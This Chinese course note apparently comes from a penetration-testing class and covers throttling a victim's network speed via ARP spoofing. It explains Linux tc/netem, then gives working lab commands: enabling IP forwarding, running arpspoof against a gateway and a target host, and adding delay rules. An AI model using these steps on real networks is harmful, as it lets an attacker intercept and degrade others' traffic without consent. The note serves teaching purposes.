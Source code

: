 # ARP限制网速攻击

大家没想到吧，ARP还能限制对方网速。当kali欺骗了网关和受害者的时候，受害者访问网络就需要经过kali的网卡，那我们限制kali网卡的速度或者转发的速度就可以限制对方的网速。这里可以使用的工具有tc、iptables、WonderShaper等等，我们以tc为例，tc是通过限制网卡的速度来限制对方的，是一种杀敌一千自损八百的手段。

## 1.TC工具介绍

在Linux中，流量控制都是通过TC这个工具来完成的。通常， 要对网卡进行流量控制的配置，需要进行如下的步骤:

◆ 为网卡配置一个队列;

◆ 在该队列上建立分类;

◆ 根据需要建立子队列和子分类;

◆ 为每个分类建立过滤器。

需要注意的是， 在TC 中使用下列的缩写表示相应的网络延迟:

时间的计量单位：

- s、sec或者secs               秒

- ms、msec或者msecs            毫秒

- us、usec、usecs或者一个无单位数字  微秒


QDisc(排队规则) [qdɪsk]是queueing discipline [ˈkjuːɪŋ] [ˈdɪsəplɪn] 的简写，它是理解流量控制(traffic control)的基础。无论何时，内核如果需要通过某个网络接口发送数据包，它都需要按照为这个接口配置的qdisc(排队规则)把数据包加入队列。然后，内核会尽可能多地从qdisc里面取出数据包，把它们交给网络适配器驱动模块。

## 2.TC命令介绍

#### 1.限制网速200ms延时

```
tc qdisc add dev eth0 root netem delay 200ms
参数：
qdisc：排队规则
add:添加
dev：设备（网卡）
root：root用户身份
netem delay：设置网络延时时间
```

#### 2.取消限制网速200ms延时

```
tc qdisc del dev eth0 root netem delay 200ms
参数：
qdisc：排队规则
del:删除
dev：设备（网卡）
root：root用户身份
netem delay：设置网络延时时间
```

#### 3.修改网络延时

```
tc qdisc change  dev eth0 root netem delay 300ms
参数：
qdisc：排队规则
change:修改
dev：设备（网卡）
root：root用户身份
netem delay：设置网络延时时间
```

## 3.ARP攻击限制网速的具体步骤

#### 1.开启端口转发

```
cat /proc/sys/net/ipv4/ip_forward 	        #值为0表示没开启流量转发，为1表示开启了
echo 1 > /proc/sys/net/ipv4/ip_forward     #开启流量转发
```

#### 2.开启ARP攻击

```
arpspoof -i eth0 -r 192.168.70.1 -t 192.168.70.130
```

#### 3.查看靶机当前的网速

```
https://www.speedtest.cn/
```

#### 4.开启网络延迟限速

```
tc qdisc add dev eth0 root netem delay 500ms
```

#### 5.查看限速规则

```
tc qdisc show
```

#### 6.查看靶机当前的网速

```
https://www.speedtest.cn/
```

#### 7.修改网速限制

```
tc qdisc change dev eth0 root netem delay 800ms
```

#### 8.查看限速规则

```
tc qdisc show
```

#### 9.查看靶机当前的网速

```
https://www.speedtest.cn/
```

#### 10.取消限速

```
tc qdisc del dev eth0 root netem delay 800ms
```

#### 11.查看限速规则

```
tc qdisc show
```

#### 12.查看靶机当前的网速

```
https://www.speedtest.cn/
```

## 4.限速原理讲解

![ARP限制网速原理图](https://image.201068.xyz/assets/ARP限制网速原理图.png)

## 5.课堂小结

请参考：ARP限制网速攻击-课后笔记.xmind

 

